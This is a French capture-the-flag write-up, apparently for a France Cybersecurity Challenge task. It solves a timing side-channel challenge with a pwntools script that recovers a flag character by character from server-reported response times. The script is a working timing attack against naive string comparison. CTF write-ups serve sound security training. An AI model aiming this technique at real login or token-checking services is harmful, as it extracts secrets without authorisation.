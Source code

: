 ## Enonce

![](./enonce.png)

## Résolution

C'est une attaque time based, attention à prendre en compte les 2 nombres renvoyés par le serveur et pas `time.time()`.

![](./door.png)

On remarque que pour certains caractères, le temps de différence de réponse (serveur) est bien plus grand que les autres.
On peut penser à un algo naïf en prenant le max mais cela prend 10 min.

```python
from pwn import *
import re, string, statistics, time

charset = string.printable[:-5]
flag = ""

conn = remote('challenges.france-cybersecurity-challenge.fr', 2350)
conn.recvuntil('Answer:')

start = time.time()
for _ in range(1000):
        list = []
        for c in charset:
                payload = flag + c + '\n'
                conn.send(payload)
                response = conn.recvuntil('Answer:').decode().strip(); print(response)
                numbers = re.findall(r'\d+', response)
                diff = int(numbers[1]) - int(numbers[0])
                list.append(diff)
                tps = time.time() - start
                print(f"Payload = {payload.strip()} Diff = {diff} Temps (s): {tps}")
                if diff > 1.25*statistics.mean(list):
                        flag += c
                        print(f"[+] Flag = {flag}")
                        break

conn.close()
```

C'est sale (bidouillage à la main) mais ça fonctionne en moins de 3 minutes:

![](./flag.png)





